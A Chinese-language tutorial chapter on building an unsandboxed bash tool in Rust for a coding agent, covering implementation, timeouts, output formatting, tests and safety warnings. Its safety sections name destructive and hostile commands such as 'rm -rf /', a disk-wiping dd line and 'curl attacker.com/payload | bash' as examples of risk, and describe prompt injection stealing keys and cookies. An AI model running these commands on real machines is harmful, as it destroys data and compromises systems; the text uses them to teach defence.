

# 第 10 章：Bash 工具

> **需要编辑的文件：** `src/tools/bash.rs`
> **运行测试：** `cargo test -p mini-claw-code-starter test_bash_`
> **预计时间：** 35 分钟

## 目标

- 实现 `BashTool`，让 agent 能通过 `bash -c` 运行任意 shell 命令，并捕获合并后的 stdout/stderr 输出。
- 正确处理三种输出情况：仅有 stdout、仅有 stderr，以及无输出（哨兵值 `"(no output)"`）。
- 理解为什么本章工具没有安全限制，以及后续章节会添加哪些保护措施（权限、命令分类、钩子）。

bash 工具是 coding agent 中最强大的工具，也是最危险的。一次工具调用，LLM 就能编译代码、运行测试、安装软件包、查看进程、查询数据库，或者删掉你的整个文件系统。其他工具——read、write、edit、grep——各做一件事；bash 什么都能做。

这种能力正是 coding agent 的价值所在。只能读写文件的 agent 是个花哨的文本编辑器；能运行任意 shell 命令的才是真正的程序员——可以尝试、观察、迭代，和人类开发者的工作流一模一样。Claude Code 的 bash 工具是其使用最频繁的工具，在典型会话中占所有工具调用的大多数。

本章构建 `BashTool`：接收命令字符串，在 bash 子进程中运行，返回合并后的输出。（超时功能作为扩展在后面介绍。）实现本身并不复杂——难点在于刻意省略的部分。没有沙箱，没有命令过滤，没有权限检查，LLM 可以运行任何命令。第 13-16 章加安全防护，现在先把引擎造好，信任驾驶员。

## BashTool 处理命令的流程



## BashTool

打开 `src/tools/bash.rs`，初始桩代码如下：

```rust
use anyhow::Context;
use serde_json::Value;

use crate::types::*;

pub struct BashTool {
    definition: ToolDefinition,
}

impl Default for BashTool {
    fn default() -> Self {
        Self::new()
    }
}

impl BashTool {
    /// Schema: one required "command" parameter (string).
    pub fn new() -> Self {
        unimplemented!(
            "Use ToolDefinition::new(name, description).param(...) to define a required \"command\" parameter"
        )
    }
}

#[async_trait::async_trait]
impl Tool for BashTool {
    fn definition(&self) -> &ToolDefinition {
        &self.definition
    }

    async fn call(&self, _args: Value) -> anyhow::Result<String> {
        unimplemented!(
            "Extract command, run bash -c, combine stdout + stderr, return \"(no output)\" if both empty"
        )
    }
}
```

填写 `new()` 和 `call()`，完整实现如下：

```rust
impl BashTool {
    pub fn new() -> Self {
        Self {
            definition: ToolDefinition::new("bash", "Run a bash command and return its output")
                .param("command", "string", "The bash command to run", true),
        }
    }
}

#[async_trait::async_trait]
impl Tool for BashTool {
    fn definition(&self) -> &ToolDefinition {
        &self.definition
    }

    async fn call(&self, args: Value) -> anyhow::Result<String> {
        let command = args["command"]
            .as_str()
            .context("missing 'command' argument")?;

        let output = tokio::process::Command::new("bash")
            .arg("-c")
            .arg(command)
            .output()
            .await?;

        let stdout = String::from_utf8_lossy(&output.stdout);
        let stderr = String::from_utf8_lossy(&output.stderr);

        let mut result = String::new();
        if !stdout.is_empty() {
            result.push_str(&stdout);
        }
        if !stderr.is_empty() {
            if !result.is_empty() {
                result.push('\n');
            }
            result.push_str("stderr: ");
            result.push_str(&stderr);
        }

        if result.is_empty() {
            result.push_str("(no output)");
        }

        Ok(result)
    }
}
```

下面逐段讲解。

### 工具定义

```rust
ToolDefinition::new("bash", "Run a bash command and return its output")
    .param("command", "string", "The bash command to run", true)
```

只有一个必填参数：`command`，即要执行的 shell 命令。描述语 "Run a bash command and return its output" 刻意简洁。LLM 本就知道 bash 是什么，过度描述浪费 prompt token，还可能让模型在判断何时使用时过度纠结。

扩展方向：可以添加 `timeout` 参数，让 LLM 为耗时较长的命令覆盖默认超时。参考实现中包含了这一功能。

### 参数提取

```rust
let command = args["command"]
    .as_str()
    .context("missing 'command' argument")?;
```

提取 `command` 时，`.context(...)` 配合 `?` 在参数缺失时返回 `Err`。没有命令的 bash 调用属于协议违规，不是工具故障。LLM 不应产生这种情况，一旦出现，agent 的错误处理会捕获它。

### 运行命令

```rust
let output = tokio::process::Command::new("bash")
    .arg("-c")
    .arg(command)
    .output()
    .await?;
```

### Rust 概念：tokio::process::Command 与 std::process::Command

`tokio::process::Command` 是 `std::process::Command` 的异步版本。核心区别：`std` 版本在等待子进程结束时阻塞当前 OS 线程；在 Tokio 这样的异步运行时中，阻塞线程意味着运行时无法推进其他任务（其他工具调用、流式事件、UI 更新等）。`tokio` 版本在等待时让出运行时，线程得以处理其他工作。**在 `async fn` 中请始终使用 `tokio::process`**——在异步上下文中使用 `std::process` 是常见错误，高负载下可能导致性能问题甚至死锁。

这里有两层逻辑，各司其职：

1. **`tokio::process::Command`** 启动异步子进程。使用 `bash -c`，让命令字符串由 bash 解释执行，而非作为原始二进制调用。管道、重定向、分号等所有 shell 特性都可用：`echo hello | wc -c`、`ls > out.txt`、`cd /tmp && pwd`。

2. **`.output()`** 收集进程的 stdout、stderr 和退出状态，将所有内容缓冲到内存。生产 agent 通常需要流式输出（实时将 stdout/stderr 传给 TUI），但缓冲收集更简单，对我们的目的已足够。

进程启动失败时（找不到 bash、OS 拒绝创建进程），`?` 将错误向上传播，agent 循环捕获后报告给 LLM。

## 添加超时（扩展）

没有超时，一个出问题的命令就能让 agent 永久挂起。LLM 可能运行 `sleep infinity`、启动监听端口的服务器，或触发等待 stdin 的交互程序——这些都会无限期阻塞 agent 循环，没有新的工具调用，没有新的响应，只剩一个空转消耗计算资源的冻结进程。

扩展方案：用 `tokio::time::timeout` 包装命令：

```rust
let output = tokio::time::timeout(
    std::time::Duration::from_secs(120),
    tokio::process::Command::new("bash")
        .arg("-c")
        .arg(command)
        .output(),
)
.await;
```

这会产生嵌套的 `Result`：成功时为 `Ok(Ok(output))`，启动失败时为 `Ok(Err(e))`，超时时为 `Err(_)`。参考实现包含了这一模式。

## 输出格式

输出构建逻辑处理三种情况：stdout、stderr 和空输出。

```rust
let stdout = String::from_utf8_lossy(&output.stdout);
let stderr = String::from_utf8_lossy(&output.stderr);

let mut result = String::new();
if !stdout.is_empty() {
    result.push_str(&stdout);
}
if !stderr.is_empty() {
    if !result.is_empty() {
        result.push('\n');
    }
    result.push_str("stderr: ");
    result.push_str(&stderr);
}

if result.is_empty() {
    result.push_str("(no output)");
}
```

逐条分析：

### Rust 概念：String::from_utf8_lossy 与 String::from_utf8

`String::from_utf8_lossy` 返回 `Cow<str>`——字节是合法 UTF-8 时零拷贝借用，否则分配新 `String` 并用替换字符代替非法字节。另一选项 `String::from_utf8()` 遇到无效 UTF-8 返回 `Err`，需要额外处理，而这类情况我们希望容忍。**需要字符串但无法保证输入编码时，`from_utf8_lossy` 是正确选择。**

**`String::from_utf8_lossy`** 将原始字节转为字符串，用替换字符代替无效 UTF-8 序列。命令输出不能保证是合法 UTF-8——二进制数据、依赖 locale 的编码、损坏的流都可能产生无效字节。有损转换是正确的默认选择：LLM 需要字符串，几个替换字符远好过程序崩溃。

**stdout 排前面，不加修饰。** 这是主要输出。`ls` 列文件、`cat` 打印内容时，输出原样呈现，不加前缀，不做包装。

**stderr 加上 `"stderr: "` 前缀。** 让 LLM 区分正常输出与错误输出。很多命令即便成功也会向 stderr 写入内容（编译器警告、进度指示、弃用提醒）。前缀防止模型把警告误判为失败。只有 stdout 也有内容时才在前缀前加换行，保持仅有 stderr 时输出整洁。

**静默命令返回 `"(no output)"`。** `true`、`mkdir -p /tmp/foo`、`cp a b` 等命令成功执行后不产生任何 stdout 和 stderr。返回空字符串会让 LLM 困惑，以为工具失败或结果丢失。这个哨兵字符串明确告知：命令已执行，只是没有输出。

扩展方向：也可以在输出中报告非零退出码。参考实现会在进程以非零状态退出时附加 `"exit code: N"`，帮助 LLM 诊断失败原因。

## 安全注意事项

bash 工具是 agent 工具箱中最危险的工具，可以运行任何命令——`rm -rf /`、`dd if=/dev/zero of=/dev/sda`、`curl ... | bash`。starter 简化版 `Tool` trait 不包含 `is_destructive()` 这类安全标志，但在生产 agent（以及参考实现）中，bash 工具会被标记为破坏性操作，即使在自动确认模式下也需要用户明确批准。

starter 的 `Tool` trait 只有 `definition()` 和 `call()`。添加安全元数据（只读、破坏性、并发安全标志）是后续章节的扩展主题。

## 安全警告

该工具将 LLM 生成的命令直接传给 bash shell，没有沙箱，没有命令过滤，没有白名单，没有黑名单。LLM 可以运行 `rm -rf /`，文件系统就没了；可以运行 `curl attacker.com/payload | bash`，机器就被攻陷了；还可以读取你的 SSH 密钥、环境变量、浏览器 cookie。

这不是假设性的担忧。LLM 可以通过提示注入被操控——恶意指令隐藏在 agent 处理的文件内容、README 或网页中。精心构造的提示注入可能让模型泄露数据或销毁文件。

在本教程范围内，bash 工具在受控环境中配合可信 prompt 使用是安全的。**不要指向不受信任的输入，不要在有敏感数据的机器上运行，请使用容器、虚拟机，或至少使用权限受限的专用用户账户。**

第 13-16 章会构建使 bash 工具适合生产环境的安全基础设施：

- **第 13 章（权限）**：添加权限引擎，对每次工具调用设置门控，破坏性操作要求用户批准。
- **第 14 章（安全）**：添加命令分类，检测并阻止 `rm -rf`、`chmod 777`、`curl | bash` 等危险模式。
- **第 15 章（钩子）**：添加工具调用前钩子，在执行前检查并拒绝命令。
- **第 16 章（计划模式）**：添加只读模式，彻底阻止破坏性工具。

构建这些章节之前，请以对待不可预测协作者的 `sudo` 权限那样的态度认真对待 bash 工具。

## Claude Code 的做法

Claude Code 的 bash 工具共用同一核心——带超时的 `bash -c <command>`——但加了多层生产级加固：

**命令过滤。** 执行任何命令前，Claude Code 通过安全分类器检查危险模式。`rm -rf /`、`chmod -R 777`、`curl ... | sh` 等会被标记或直接阻断。分类器不是简单的正则——理解 shell 引号和管道，避免误判。

**工作目录管理。** Claude Code 为每次 bash 调用跟踪并设置工作目录。用户在一条命令中 `cd` 进入某目录后，后续命令会记住。我们的版本始终在进程当前目录下运行。

**超时时杀掉进程组。** 我们的工具超时后，被启动的进程可能继续在后台运行。Claude Code 为每条命令创建进程组，超时时杀掉整个进程组，确保没有孤儿进程残留。

**流式输出 stdout/stderr。** Claude Code 不是等所有输出就绪后才一次性返回，而是实时将 stdout 和 stderr 管道传送到 TUI。用户能实时看到编译输出、测试结果和进度指示。对于耗时较长的命令，等待最终结果会让用户盯着空白屏幕——流式输出在这种场景下必不可少。

**权限引擎集成。** 每条 bash 命令在执行前都经过权限引擎。根据配置，用户可能被提示批准命令，命令可能被自动批准（匹配安全模式），也可能被直接拒绝。

我们的版本是不带安全包装的核心协议——展示 LLM 如何与 shell 交互的最小可行实现。生产特性是叠加在上面的层次，不是对基础设计的改变。

## 测试

运行 bash 工具测试：

```bash
cargo test -p mini-claw-code-starter test_bash_
```

各条 bash 专项测试的验证内容：

**`test_bash_definition`**：检查工具名称为 "bash"。

**`test_bash_runs_command`**：运行简单命令，检查 stdout 被正确捕获。

**`test_bash_captures_stderr`**：运行向 stderr 写入内容的命令，检查输出中包含 stderr 内容。

**`test_bash_stdout_and_stderr`**：运行同时产生 stdout 和 stderr 的命令，验证两者都出现在输出中。

**`test_bash_no_output`**：运行 `true`（静默成功的命令），检查输出表明没有产生输出。

**`test_bash_multiline_output`**：运行多命令管道，检查所有输出行都出现。

## 小结

bash 工具构建完成——agent 工具箱中最重要也最危险的工具：

- **`command`** 是唯一的必填参数。
- **`tokio::process::Command`** 配合 `bash -c`，赋予 LLM 完整的 shell 访问能力——管道、重定向、变量，以及所有 bash 支持的特性。
- **输出格式**将 stdout 和带标签的 stderr 合并为单个字符串，静默命令返回 `"(no output)"` 告知 LLM 命令已执行。
- **无安全限制**——本章构建的是原始能力，权限引擎、安全分类器、钩子和计划模式留到后续章节。

扩展方向：可以添加 `timeout` 参数（防止命令挂起）、退出码报告，以及 `is_destructive()` 等安全标志。

bash 工具使核心工具集完整。agent 现在可以读取文件、写入文件、编辑文件、运行任意命令。配合前几章的 `SimpleAgent` 驱动循环，已经拥有一个可运行的 coding agent——能理解代码库、进行修改、运行测试，持续迭代直到任务完成。

## 核心要点

bash 工具是让 coding agent 成为*程序员*而非文本编辑器的关键。实现上是最简单的工具（一个 `Command::new("bash").arg("-c").arg(command)` 调用），做到安全却最难。捕获输出、标记 stderr、处理静默——这套实现模式可复用于任何基于子进程的工具。

## 下一步

[第 11 章：搜索工具](./ch11-search-tools.md)将构建帮助 agent 导航大型代码库的工具——按模式查找文件的 glob，以及搜索文件内容的 grep。这些只读工具是 agent 的眼睛，与已经构建的双手（bash、write、edit）相辅相成。

## 自我检测

{{#quiz ../quizzes/ch10.toml}}

---

[← 第 9 章：文件工具](./ch09-file-tools.md) · [目录](./ch00-overview.md) · [第 11 章：搜索工具 →](./ch11-search-tools.md)
